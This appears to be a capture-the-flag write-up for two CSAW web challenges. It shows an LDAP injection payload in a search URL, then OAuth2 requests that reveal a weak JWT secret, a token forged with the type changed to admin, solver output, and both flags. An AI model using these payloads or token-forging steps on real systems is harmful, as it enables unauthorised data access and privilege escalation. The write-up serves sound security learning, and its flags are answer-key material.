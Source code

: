 <a name="ldab"/>

# Ldab

Points : 50

Solved: **432 / 1448**

Tags: **Blind, Ldap injection**

Link: **http://web.chal.csaw.io:8080**

**How to solve ?**
- Search for list all of all users and groups 

**Solution**
1. Check for LDAP injection payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)
2. Request `http://web.chal.csaw.io:8080/index.php?search=*))(|(GivenName=*)(UID=*`
3. Flag `flag{ld4p_inj3ction_i5_a_th1ng}`

<a name="sso"/>

# SSO

Points: 100

Sovled: **210 / 1448
How to solve ?**

Tags: **Blackbox, Oauth2, Signle Sign On, JWT token**

Link: **web.chal.csaw.io:9000**

**Steps to solve :**
- Use oauth 2.0 for authorization and authentication
- Get the secret to forge a valid JWT token and get the flag

**Solution :**
1. Get code authorization: `/oauth2/authorize`
 - response_type: `code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - state: `http://web.chal.csaw.io:9000/protected`
 - scopy: `http://web.chal.csaw.io:9000/protected`
 - client_id: `admin`
 - client_secret: `admin`

*Request*
```
POST /oauth2/authorize  HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

response_type=code&redirect_uri=http://web.chal.csaw.io:9000/protected&state=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&scope=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&client_id=admin&client_secret=admin
```
*Response*
```
http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&amp;state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected
```

2. Get token for authentication: `/oauth2/token`:
 - code: receive from request 1 
 - state: `http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected`
 - grant_type: `authorization_code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - client_secret: `admin`
 - client_id: `admin`

*Request*
```
POST /oauth2/token HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 411

code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected&grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_secret=ufoundme!&client_id=admin
```

*Response*
```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA2Mzg3MCwiZXhwIjoxNTM3MDY0NDcwfQ.4Vlaf8qsPoPyNNIX6CNVgn_w1zHbnVJEg5dJQZmMeGk"}
```

*Raw token*
```
{"alg":"HS256","typ":"JWT"}{"type":"user","secret":"ufoundme!","iat":1537063870,"exp":1537064470} + signature`
``` 

3. Crack signature JWT, change token 
 - Crack online on https://jwt.io/
![Crack JWT token](./resource_web/web-sso.png)

4. Get flag 

```
GET /protected HTTP/1.1
Host: web.chal.csaw.io:9000
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNjM4NzAsImV4cCI6MTUzNzA2NDQ3MH0.0nrhvscHLcDxopIVt6FzV8mn2KhGI4CbEMfOsrHvnJ0
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 369
```

5. Flag: `flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

6. Code python for solve challenge: [here](./scripts/sso.py)

```
$ Request to oauth2/authorize ...
> Code = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MTM2NTQ2LCJleHAiOjE1MzcxMzcxNDZ9.kV123Uzgg4H7i_DxNg6u6QCBiFP2y3sMFNzxZhXtrQw
$ Request to oauth2/token ...
> Token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzEzNjU0OCwiZXhwIjoxNTM3MTM3MTQ4fQ.inn4CGJOX4ID6kab4YdK70ZKqBwV0Be92s6dp2yAUvA
$ Crack signature and change data ...
> New token = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcxMzY1NDgsImV4cCI6MTUzNzEzNzE0OH0.60wi5F1gDUUqNLCKLPDAiENUBRJWhFEzE1xeFqc8RrQ
$ Request to /protected ...
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```
